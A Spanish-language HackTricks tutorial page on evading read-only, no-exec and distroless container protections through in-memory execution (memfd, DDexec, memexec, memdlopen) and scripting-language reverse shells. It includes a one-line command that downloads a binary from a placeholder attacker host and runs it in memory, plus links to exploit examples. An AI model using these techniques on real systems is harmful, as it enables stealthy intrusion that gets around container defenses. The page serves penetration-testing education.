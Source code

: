 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

En los siguientes videos puedes encontrar las técnicas mencionadas en esta página explicadas más a fondo:

* [**DEF CON 31 - Explorando la Manipulación de Memoria en Linux para el Sigilo y la Evasión**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusiones sigilosas con DDexec-ng & dlopen() en memoria - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## escenario de solo lectura / sin ejecución

Es cada vez más común encontrar máquinas linux montadas con **protección de sistema de archivos de solo lectura (ro)**, especialmente en contenedores. Esto se debe a que ejecutar un contenedor con un sistema de archivos ro es tan fácil como establecer **`readOnlyRootFilesystem: true`** en el `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Sin embargo, incluso si el sistema de archivos está montado como ro, **`/dev/shm`** seguirá siendo escribible, por lo que es falso que no podamos escribir nada en el disco. Sin embargo, esta carpeta estará **montada con protección sin ejecución**, por lo que si descargas un binario aquí **no podrás ejecutarlo**.

{% hint style="warning" %}
Desde la perspectiva de un equipo rojo, esto hace que sea **complicado descargar y ejecutar** binarios que no están en el sistema ya (como puertas traseras o enumeradores como `kubectl`).
{% endhint %}

## Bypass más fácil: Scripts

Ten en cuenta que mencioné binarios, puedes **ejecutar cualquier script** siempre que el intérprete esté dentro de la máquina, como un **script de shell** si `sh` está presente o un **script de python** si `python` está instalado.

Sin embargo, esto no es suficiente para ejecutar tu puerta trasera binaria u otras herramientas binarias que puedas necesitar ejecutar.

## Bypasses de Memoria

Si deseas ejecutar un binario pero el sistema de archivos no lo permite, la mejor manera de hacerlo es **ejecutándolo desde la memoria**, ya que las **protecciones no se aplican allí**.

### Bypass de FD + syscall exec

Si tienes algunos motores de script potentes dentro de la máquina, como **Python**, **Perl** o **Ruby**, podrías descargar el binario para ejecutarlo desde la memoria, almacenarlo en un descriptor de archivo de memoria (`create_memfd` syscall), que no estará protegido por esas protecciones y luego llamar a una **`exec` syscall** indicando el **fd como el archivo a ejecutar**.

Para esto, puedes usar fácilmente el proyecto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Puedes pasarle un binario y generará un script en el lenguaje indicado con el **binario comprimido y codificado en b64** con las instrucciones para **decodificar y descomprimirlo** en un **fd** creado llamando a la syscall `create_memfd` y una llamada a la **syscall exec** para ejecutarlo.

{% hint style="warning" %}
Esto no funciona en otros lenguajes de scripting como PHP o Node porque no tienen ninguna **manera predeterminada de llamar a syscalls en bruto** desde un script, por lo que no es posible llamar a `create_memfd` para crear el **fd de memoria** para almacenar el binario.

Además, crear un **fd regular** con un archivo en `/dev/shm` no funcionará, ya que no se te permitirá ejecutarlo porque se aplicará la **protección sin ejecución**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) es una técnica que te permite **modificar la memoria de tu propio proceso** sobrescribiendo su **`/proc/self/mem`**.

Por lo tanto, **controlando el código ensamblador** que se está ejecutando en el proceso, puedes escribir un **shellcode** y "mutar" el proceso para **ejecutar cualquier código arbitrario**.

{% hint style="success" %}
**DDexec / EverythingExec** te permitirá cargar y **ejecutar** tu propio **shellcode** o **cualquier binario** desde **memoria**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Para más información sobre esta técnica, consulta el Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) es el siguiente paso natural de DDexec. Es un **shellcode demonizado de DDexec**, por lo que cada vez que quieras **ejecutar un binario diferente** no necesitas relanzar DDexec, solo puedes ejecutar el shellcode de memexec a través de la técnica DDexec y luego **comunicarte con este demonio para pasar nuevos binarios para cargar y ejecutar**.

Puedes encontrar un ejemplo de cómo usar **memexec para ejecutar binarios desde un reverse shell de PHP** en [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con un propósito similar al de DDexec, la técnica [**memdlopen**](https://github.com/arget13/memdlopen) permite una **manera más fácil de cargar binarios** en memoria para ejecutarlos más tarde. Podría incluso permitir cargar binarios con dependencias.

## Bypass Distroless

### Qué es distroless

Los contenedores distroless contienen solo los **componentes mínimos necesarios para ejecutar una aplicación o servicio específico**, como bibliotecas y dependencias de tiempo de ejecución, pero excluyen componentes más grandes como un gestor de paquetes, shell o utilidades del sistema.

El objetivo de los contenedores distroless es **reducir la superficie de ataque de los contenedores al eliminar componentes innecesarios** y minimizar el número de vulnerabilidades que pueden ser explotadas.

### Reverse Shell

En un contenedor distroless, es posible que **ni siquiera encuentres `sh` o `bash`** para obtener un shell regular. Tampoco encontrarás binarios como `ls`, `whoami`, `id`... todo lo que normalmente ejecutas en un sistema.

{% hint style="warning" %}
Por lo tanto, **no podrás** obtener un **reverse shell** o **enumerar** el sistema como lo haces normalmente.
{% endhint %}

Sin embargo, si el contenedor comprometido está ejecutando, por ejemplo, un flask web, entonces python está instalado, y por lo tanto puedes obtener un **reverse shell de Python**. Si está ejecutando node, puedes obtener un reverse shell de Node, y lo mismo con casi cualquier **lenguaje de scripting**.

{% hint style="success" %}
Usando el lenguaje de scripting podrías **enumerar el sistema** utilizando las capacidades del lenguaje.
{% endhint %}

Si no hay protecciones de **`read-only/no-exec`**, podrías abusar de tu reverse shell para **escribir en el sistema de archivos tus binarios** y **ejecutarlos**.

{% hint style="success" %}
Sin embargo, en este tipo de contenedores, estas protecciones generalmente existirán, pero podrías usar las **técnicas de ejecución en memoria anteriores para eludirlas**.
{% endhint %}

Puedes encontrar **ejemplos** sobre cómo **explotar algunas vulnerabilidades RCE** para obtener **reverse shells** de lenguajes de scripting y ejecutar binarios desde la memoria en [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
